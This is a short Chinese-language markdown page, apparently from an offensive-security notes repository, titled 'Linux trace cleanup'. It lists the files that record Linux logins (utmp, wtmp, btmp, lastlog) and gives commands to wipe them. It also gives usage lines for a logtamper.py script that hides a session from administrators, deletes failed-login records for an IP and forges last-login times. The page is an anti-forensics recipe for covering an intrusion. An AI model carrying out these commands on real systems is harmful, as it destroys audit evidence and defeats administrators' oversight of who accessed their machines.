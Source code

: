 # Linux 痕迹清理

## 0x01 ssh登录日志

### 日志文件位置及命令
 | 命令	 | 日志文件	 | 功能 | 
 | ---- | ---- |---- |
 |w,who|/var/run/utmp|记录当前正在登录系统的用户信息，uptime记录系统启动时间|
 | last | 	/var/log/wtmp	 | 所有成功登录/登出的历史记录 | 
 | lastb | 	/var/log/btmp | 	登录失败尝试 | 
 | lastlog	 | /var/log/lastlog	 | 最近登录记录 | 

这些日志都是以二进制形式存储。   

### 清除方法
方案1，直接清空：  
```
# > /var/log/utmp
# > /var/log/wtmp
# > /var/log/btmp
# > /var/log/lastlog
```
方案2，使用脚本：

- [logtamper.py](./logtamper.py)
```
躲避管理员w查看(w)
python logtamper.py -m 1 -u root -i 192.168.0.188

清除指定ip的登录日志(lastb)
python logtamper.py -m 2 -u root -i 192.168.0.188

修改上次登录时间地点(lastlog)
python logtamper.py -m 3 -u root -i 192.168.0.188 -t tty1 -d 2014:05:28:10:11:12
```
